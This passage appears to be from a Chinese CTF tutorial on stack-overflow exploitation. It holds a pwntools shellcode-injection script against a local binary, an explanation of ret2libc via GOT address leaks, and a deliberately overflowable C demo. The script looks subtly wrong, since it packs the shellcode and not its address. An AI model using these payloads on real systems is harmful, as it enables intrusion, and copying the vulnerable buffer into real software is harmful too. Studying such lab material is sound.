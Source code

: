 脚本：

```plain
from pwn import*

io = process('./text')
shellcode_adr=0x404080
shellcode=asm(shellcraft.sh())
payload = b'a'*(0x10+8)+p64(shellcode)
io.sendline(shellcode)
io.sendline(payload)
io.interactive()
```

## 4.ret2libc

### libc？

libc.so是Linux系统中的C标准库动态链接库（shared library）。它包含了C语言程序常用的函数和符号，可以在程序运行时动态加载到内存中，并被程序调用。

在动态链接的情况下，程序链接的时候不会将库中的所有函数都链接进来，只有在执行的时候加载相应程序中调用了的函数。所以ret2libc的含义便是返回调用libc库中的函数

### 调用？

当这个程序中没有调用我们想要劫持调用函数怎么办？那么我们就需要想方法获得函数在libc动态链接库中的真实地址了

引入概念：程序GOT表

GOT表（Global Offset Table）是一种数据结构，用于存储程序中使用的全局变量或者函数的地址。在程序运行时，当程序需要访问一个全局变量或者调用一个全局函数时，它会先在GOT表中查找相应的地址，然后使用这个地址进行访问或者调用。

GOT表通常用于实现动态链接（dynamic linking），在动态链接的情况下，程序在运行时会动态加载共享库（shared library），而这些共享库中的全局变量和函数的地址是未知的。因此，程序需要通过GOT表来获取这些全局变量和函数的地址，以便正确地访问或者调用它们。

同时还有一点：函数在libc动态链接库中的相对地址是固定的，也就是说，如果我们能够将一个函数的got表对应的地址打印出来，我们就能根据各个函数的相对地址来找到所有libc库函数的地址

那么我们的思路就是这样

泄露某个程序中调用的函数的真实地址—libc版本—>获得libc基地址——>获得所有函数地址

### 泄露？

当程序中有输出函数时，我们就可以通过在返回地址构造输出函数以及控制函数参数的方式是函数打印got表内容然后再末尾接上主函数或者发生栈溢出的函数地址再次构造一次栈溢出，此时我们不仅打印出了函数的真实地址，通过libc版本获得libc基地址和所有函数地址，而且还能再执行一次栈溢出，此时我们就能通过控制参数构造危险后门函数来获得权限了

demo

```plain
#include<stdio.h>
#include<stdlib.h>

void init()
{
  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  setbuf(stderr, 0LL);
}
int main()
{
init();
puts("ret2libc");
char b[0x10];
read(0,b,0x40);
    return 0;
}
```
